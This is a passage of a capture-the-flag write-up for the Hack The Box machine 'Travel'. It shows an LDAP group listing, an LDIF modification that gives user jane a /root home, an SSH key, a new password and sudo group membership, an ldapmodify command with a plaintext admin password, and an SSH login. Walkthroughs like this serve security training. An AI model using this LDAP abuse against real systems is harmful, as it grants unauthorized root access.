 We see here that we are the admin of the ldap service.
```
# domainusers, groups, linux, servers, travel.htb
dn: cn=domainusers,ou=groups,ou=linux,ou=servers,dc=travel,dc=htb
memberUid: frank
memberUid: brian
memberUid: christopher
memberUid: johnny
memberUid: julia
memberUid: jerry
memberUid: louise
memberUid: eugene
memberUid: edward
memberUid: gloria
memberUid: lynik
gidNumber: 5000
cn: domainusers
objectClass: top
objectClass: posixGroup
```
# modification of jane.ldif 
We are going to add any user from the sudoers group into the administrator ldaps account to that we can run ldap as sudo and hope for a root shell.
We add this content to our jane.ldif file:
```
dn: uid=jane,ou=users,ou=linux,ou=servers,dc=travel,dc=htb
changetype: modify
replace: homeDirectory
homeDirectory: /root
-
add: objectClass
objectClass: ldapPublicKey
-
add: sshPublicKey
sshPublicKey: <our ssh public key here>
-
replace: userPassword
userPassword: RootMe
-
replace: gidNumber
gidNumber: 27
```
We then run 
```bash
ldapmodify -D "cn=lynik-admin,dc=travel,dc=htb"  -w Theroadlesstraveled -f jane.ldif
To modify our entry and add jane to the admin account.
```
# SSH as Jane
```bash
ssh jane@travel.htb              
Creating directory '/home@TRAVEL/jane'.
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-26-generic x86_64)

  System information as of Wed 09 Sep 2020 06:06:40 PM UTC

  System load:                      0.17
  Usage of /:                       46.1% of 15.68GB
  Memory usage:                     12%
  Swap usage:                       0%
  Processes:                        213
  Users logged in:                  1
  IPv4 address for br-836575a2ebbb: 172.20.0.1
```